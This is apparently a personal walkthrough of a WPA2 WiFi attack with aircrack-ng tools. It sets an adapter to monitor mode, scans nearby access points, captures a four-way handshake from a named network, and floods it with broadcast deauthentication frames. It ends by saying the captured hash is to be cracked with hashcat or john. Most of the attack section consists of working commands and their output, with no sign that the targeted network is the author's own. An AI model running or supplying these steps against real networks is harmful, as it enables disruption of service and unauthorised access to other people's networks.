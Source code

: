 `ip a`
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp3s0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc fq_codel state DOWN group default qlen 1000
    link/ether 50:b7:c3:03:0b:a3 brd ff:ff:ff:ff:ff:ff
3: wlp2s0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether c4:85:08:d3:4a:00 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.107/24 brd 192.168.1.255 scope global dynamic noprefixroute wlp2s0
       valid_lft 40272sec preferred_lft 40272sec
    inet6 fe80::2643:7864:1a20:ac6f/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
4: wlp0s26u1u2: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default qlen 1000
    link/ether 1a:85:58:6a:e5:26 brd ff:ff:ff:ff:ff:ff permaddr 1c:bf:ce:94:92:2d
```
`wlp0s26u1u2` - rtl NIC
`nmcli` - just to see what it gives (delete?)
```
wlp2s0: connected to HH71VM_7C47_5G
        "Intel Centrino Advanced-N 6235"
        wifi (iwlwifi), C4:85:08:D3:4A:00, hw, mtu 1500
        ip4 default
        inet4 192.168.1.107/24
        route4 192.168.1.0/24 metric 600
        route4 default via 192.168.1.1 metric 600
        inet6 fe80::2643:7864:1a20:ac6f/64
        route6 fe80::/64 metric 1024

wlp0s26u1u2: disconnected
        "Realtek RTL88x2bu"
        wifi (rtw_8822bu), A2:5C:36:CC:5F:B0, hw, mtu 1500

enp3s0: unavailable
        "Realtek RTL8111/8168/8411"
        ethernet (r8169), 50:B7:C3:03:0B:A3, hw, mtu 1500

lo: unmanaged
        "lo"
        loopback (unknown), 00:00:00:00:00:00, sw, mtu 65536

DNS configuration:
        servers: 192.168.1.1
        interface: wlp2s0

Use "nmcli device show" to get complete information about known devices and
"nmcli connection show" to get an overview on active connection profiles.
```
`iw dev wlp0s26u1u2 info`
```
Interface wlp0s26u1u2
	ifindex 4
	wdev 0x100000001
	addr 82:f0:ae:a1:cb:f8
	type managed
	wiphy 1
	txpower 20.00 dBm
	multicast TXQ:
		qsz-byt	qsz-pkt	flows	drops	marks	overlmt	hashcol	tx-bytes	tx-packets
		0	0	0	0	0	0	0	00

```
`wlp0s26u1u2` is in managed mode

`sudo pacman -S wifite` - contains `aircrack-ng` which contains `airmon-ng`
`sudo airmon-ng check kill`
To kill any confliting processes

`sudo ip link wlp0s26u1u2 down`
`sudo iw dev wlp0s26u1u2 set type monitor`
`sudo ip link wlp0s26u1u2 up`
`sudo iw wlp0s26u1u2 set txpower fixed 3000` - tx transmission power
`iw wlp0s26u1u2 info`
```
Interface wlp0s26u1u2
	ifindex 4
	wdev 0x1
	addr ce:91:2e:eb:53:a2
	type monitor
	wiphy 0
	channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
	txpower 20.00 dBm
	multicast TXQ:
		qsz-byt	qsz-pkt	flows	drops	marks	overlmt	hashcol	tx-bytes	tx-packets
		0	0	0	0	0	0	0	0		0
```
monitor mode

`sudo airodump-ng wlp0s26u1u2` - discover access point.
```
 CH  7 ][ Elapsed: 0 s ][ 2022-07-02 00:38 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 C0:06:C3:44:C2:0A  -72       11        0    0   7  540   WPA2 CCMP   PSK  HH71VM_B30E_2.4G_E
 F0:51:36:27:7C:47  -44       10        0    0   1  270   WPA2 CCMP   PSK  HH71VM_7C47_2.4G  
 0C:71:8C:44:B3:0E  -65       12        0    0   7  130   WPA2 CCMP   PSK  HH71VM_B30E_2.4G  
 2E:0E:3D:7F:34:5D  -48       12        1    0  11  130   WPA2 CCMP   PSK  Hic_habitat_felici

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 ```
BSSID (MAC address) - 2E:0E:3D:7F:34:5D
CH (channel) - 7

`sudo airodump-ng -w hack1 -c 11 --bssid 2E:0E:3D:7F:34:5D wlp0s26u1u2`
```
00:41:32  Created capture file "hack1-02.cap".





 CH 11 ][ Elapsed: 2 mins ][ 2022-07-02 00:43 ][ WPA handshake: 2E:0E:3D:7F:34:5D 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 2E:0E:3D:7F:34:5D  -45 100     1189      625    0  11  130   WPA2 CCMP   PSK  Hic_habitat_felicitas                                  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 2E:0E:3D:7F:34:5D  B8:08:CF:3C:7B:1E  -44    1e-24e     0      844  EAPOL
```

to deauthenticate:
`sudo aireplay-ng --deauth 0 -a 2E:0E:3D:7F:34:5D wlp0s26u1u2`
```
0:42:44  Waiting for beacon frame (BSSID: 2E:0E:3D:7F:34:5D) on channel 11
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
00:42:44  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:45  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:45  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:46  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:46  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:47  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:47  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:48  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:48  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:48  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:49  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:49  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:50  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:50  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:51  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
```

previous command captured 4way handshake and stored hash -> crack with hashcat/john